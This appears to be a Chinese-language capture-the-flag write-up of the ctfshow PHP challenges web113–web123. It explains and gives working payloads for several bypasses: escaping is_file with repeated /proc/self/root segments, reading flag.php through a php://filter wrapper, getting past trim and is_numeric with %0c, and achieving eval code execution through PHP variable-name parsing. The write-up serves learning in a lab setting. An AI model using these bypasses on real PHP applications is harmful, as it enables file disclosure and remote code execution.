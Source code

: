 ## web113

考察is_file文件的漏洞。
linux下，/proc/self/root指向的是根目录，多次/proc/self/root，可以溢出is_file函数。
payload:

    ?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php

## web114

又到了直接读环节

    ?file=php://filter/resoure=flag.php

## web115

考点：is_numeric函数和trim函数的绕过。
首先注意,!加两个等于是全等于的否定。
trim函数可以去除字符串左右两边指定的字符，默认去除空格什么的。
首先可以自己编写脚本，查看哪些可以绕过trim函数。
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_64814f2209e9a3eab630241b0e79d87c.jpg)](wp_editor_md_64814f2209e9a3eab630241b0e79d87c.jpg)
可以看到有三个可以不被trim函数处理。
其中43和48是0和+，在本题中会被过滤。
那么使用12对应的url编码就是%0c就可以了。

    ?num=%0c36

## web123

太复杂了，首先第一点复杂就是，php不允许变量命名有.号，所以那个post怎么办呢。
看了下[羽师傅的wp](https://blog.csdn.net/miuzzx/article/details/109181768)，发现这个CTF_SHOW.COM变成CTF[SHOW.COM就可以了。
这是。。。。？缓缓打出一个问号
所以知道了这个之后可以有一个简单的非预期：

    CTF_SHOW=1&CTF[SHOW.COM=1&fun=echo $flag

很明显太简单了，考的不是这个
另外一个$_server，羽师傅也有写的。
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_f74ba4425b423864116163215e152d14.jpg)](wp_editor_md_f74ba4425b423864116163215e152d14.jpg)
然后自己查了一下，SERVER["QUERY_STRING"]的值是等于url里面?以后的值，比如www.baidu.com?a=1123, 这个值就等于a=1123
所以羽师傅又写了一个非预期：

    ?$fl0g=flag_give_me;
    CTF_SHOW=1&CTF[SHOW.COM=1&fun=eval($a[0])

确实太牛了，不过这还不是预期，接下来写预期：
出题人说想考的是php的字符串解析的bypass，可以看[这个](https://www.freebuf.com/articles/web/213359.html)。
然后还是羽师傅测试出来的东西：
[![](http://ltfa1l.top/wp-content/uploads/2021/02/wp_editor_md_9d6afb18c2a2f682a6c420b74f8134f9.jpg)](wp_editor_md_9d6afb18c2a2f682a6c420b74f8134f9.jpg)
所以分隔之后，$a[1]就都等于后面的一部分了。
